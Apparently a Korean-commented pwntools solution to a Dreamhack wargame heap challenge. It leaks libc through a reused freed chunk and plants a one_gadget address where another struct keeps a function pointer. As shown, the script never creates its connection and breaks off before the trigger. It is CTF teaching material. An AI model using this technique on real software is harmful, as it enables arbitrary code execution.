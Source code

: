   - [문제](https://dreamhack.io/wargame/challenges/357) 해결 예제 코드
    ```
    from pwn import *

    DUMMY_DATA = 'A'
    OFFSET = 0x3ebca0
    ONE_GADGET = 0x10a41c

    # p = process('a.out', env= {"LD_PRELOAD" : "libc-2.27.so"})

    # alloc1
    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b"Size:", b'1280')
    p.sendafter(b"Data:", DUMMY_DATA.encode())
    p.sendlineafter(b"idx:", b'-1')

    # alloc2 & free alloc1
    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b"Size:", b'1280')
    p.sendafter(b"Data:", DUMMY_DATA.encode())
    p.sendlineafter(b"idx:", b'0')

    # alloc 3 (reuse chunk of 'alloc1')
    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b"Size:", b'1280')
    p.sendafter(b"Data:", DUMMY_DATA.encode())

    p.recvuntil(b'Data: ')
    fd = u64(p.recvline()[:-1].ljust(8, b'\x00'))  # fd 값 추출

    p.sendlineafter(b"idx:", b'-1') # 잔여 과정 처리

    print('fd:', hex(fd))
    offset = OFFSET + ord(DUMMY_DATA) - (OFFSET&0xFF)  # 덮어쓴 DUMMY_DATA값을 고려하여 계산한다.
    print('offset:', hex(offset))
    libc_base = fd - offset  # 유출된 fd 값으로 libc_base 값 계산
    print('libc_base:', hex(libc_base))
    gadget = libc_base + ONE_GADGET
    print('gadget:', hex(gadget))

    # alloc struct1
    p.sendlineafter(b"> ", b'1')
    p.sendlineafter(b"Weight:", b'1')
    p.sendlineafter(b"Age:", str(gadget).encode())  # 특정 구역에 gadget 주입

    # alloc struct2
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b"Weight:", b'1')
    # struct1 의 Age 영역이 strucut2 구역서는 함수 포인터이다. 아까 주입한 gadget 이 실행된다.
